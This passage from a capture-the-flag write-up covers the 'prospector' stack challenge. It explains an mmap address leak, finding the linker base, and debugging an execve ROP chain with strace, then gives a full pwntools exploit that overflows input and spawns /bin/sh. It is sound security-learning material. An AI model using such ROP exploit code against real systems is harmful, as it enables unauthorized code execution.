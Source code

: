 ```py
# do tcache poisoning

p.interactive()
```

## prospector

I solved it locally on my 5.15.167.4-microsoft-standard-WSL2 machine so the mmap offsets might be different from that on remote lol

A stack challenge. The only fun thing is that the address to leak is the mmaped address, and we can calculate the base of the linker. All of the gadgets we need are in the linker.

When debugging the rop chain, the problem I encountered is as follows. I want to call the sys_execve, and the rdi, rsi, rdx arguments each stands for file name, argv and envp respectively. At first, I passed the pointer to the string "/bin/sh" as argv, but it results in EFAULT at sys_execve.

I was miffed, but luckily, my boyfriend was nearby lol and he suggested looking at the parameters with `strace`, like `strace -o strace.log ./prospector`

It shows the following message
```
execve("/bin/sh", [0x68732f6e69622f, 0x7be1000055b63fda, 0x1f6b], NULL) = -1 EFAULT (Bad address)
```

Thus I realized the address I passed as argv should be a pointer to a pointer pointing to the string "/bin/sh" literal lol

### exp

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process("strace -o strace.log ./prospector".split(" "))
#gdb.attach(p)
#pause()
p.recvuntil("Nick")
p.send("a"*0x48 + "\x01") # can leak here
p.recvuntil("score: ")
score = p.recvline().strip(b"\n").strip()
score = int(score)
log.info("Leaked score: " + str(score))

mmap_addr = (score//2)*0x10000 + 0x700000000000
ld_addr = mmap_addr - 0x37000 # TODO
log.info("Mmap address: " + hex(mmap_addr))
pop_rdi_ret = 0x351e + ld_addr
pop_rsi_ret = 0x54da + ld_addr
pop_rax_rdx_rbx_ret = 0x20322 + ld_addr
syscall = ld_addr + 0xcbc6
p.recvuntil("Nick: ")
p.send(b"a" +b"\x00"*0x27 + p64(mmap_addr) + p64(0) + p64(pop_rdi_ret) + p64(mmap_addr) + p64(pop_rsi_ret) + p64(0) + p64(pop_rax_rdx_rbx_ret) + p64(59) + p64(0)*2 + p64(syscall))
p.recvuntil("Color: ")
p.send("aa/bin/sh\x00")
p.interactive()
```

